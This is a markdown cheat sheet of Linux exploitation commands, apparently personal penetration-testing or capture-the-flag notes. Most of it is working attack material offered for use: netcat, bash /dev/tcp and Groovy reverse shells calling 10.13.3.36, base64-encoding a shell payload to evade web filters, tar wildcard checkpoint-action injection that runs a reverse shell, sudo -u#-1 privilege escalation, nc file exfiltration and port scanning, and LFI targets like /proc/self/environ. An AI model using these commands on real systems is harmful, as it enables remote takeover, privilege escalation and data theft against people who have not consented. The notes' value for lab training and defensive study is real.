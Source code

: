 # Linux Exploitation

## Enumerate Linux Machine
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): 
    * `./linpeas.sh | tee enum.txt` 
    * `less -r enum.txt`

## Find Interesting Files
* Find File With uuid Permission
    * `find / -perm /u=s 2>/dev/null`
    * `find / -perm /4000 2>/dev/null`
* Files With Capabilities
    * `getcap -r / 2>/dev/null`


## Generate reverse ncat
* `msfvenom -p cmd/unix/reverse_netcat lhost=10.13.3.36 lport=4444`
    * `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`
* Bash Reverse Shell
    * `bash -c 'bash -i >& /dev/tcp/10.13.3.36/4444 0>&1'`
    * Create one to send on the web
```bash
$ echo 'bash -i >& /dev/tcp/localhost/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC9sb2NhbGhvc3QvNDQ0NCAwPiYxCg==

# Add spaces to remove the + and =

$ echo 'bash  -i >& /dev/tcp/localhost/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK

# Send this as the payload
$ echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK | base64 -d | bash
```
* Listener: `nc -klvnp 4444`
    * k - Wait for more connections after completion
    * l - Listen for connection
    * v - Verbose
    * n - Don't do DNS lookup
    * p - Port to listen to

## Reverse Shells

### PHP Reverse Shells
* phpbash (webshell): https://github.com/Arrexel/phpbash
* php-reverse-shell.php : https://github.com/pentestmonkey/php-reverse-shell
* #!/usr/bin/env php

### Groovy Reverse Shell
```groovy
String host="10.13.3.36";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Stabilisation of Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
CTRL-z
```sh
stty raw -echo;fg
```

If the number of rows and column don't match. 

On your machine:
```bash
 stty -a
speed 38400 baud; rows 53; columns 211; line = 0;
```

Then in the reverse shell:
```bash
stty rows 53 cols 211
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


## sudo
* List sudo Permisions
    * `sudo -l`
* Abuse sudo with (ALL, !root)
    * `sudo -u#-1`

## Abuse tar With Wildcard *
```sh
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Using nc To Transfer Files

On the receiving machine
```bash
nc -l -p 1234 > file
```
On the sending machine, open the connection and send the file.

```bash
nc -w 3 10.13.3.36 1234 < file
```

## Scan for Open Ports With nc
```bash
import os

for i in range(65535):
        command = f"nc -v -z -n -w 1 172.17.0.1 {i}"
        os.system(command)
```

## Interesting LFI Files

* /etc/passwd - Get the users on the system
* /proc/self/ - Information of the current process, replace self with PID to get other processes
    * /proc/self/cmdline - Command line
    * /proc/self/environ - Environment variables
    * /proc/self/stat - Information of the process, PID, Parrent PID
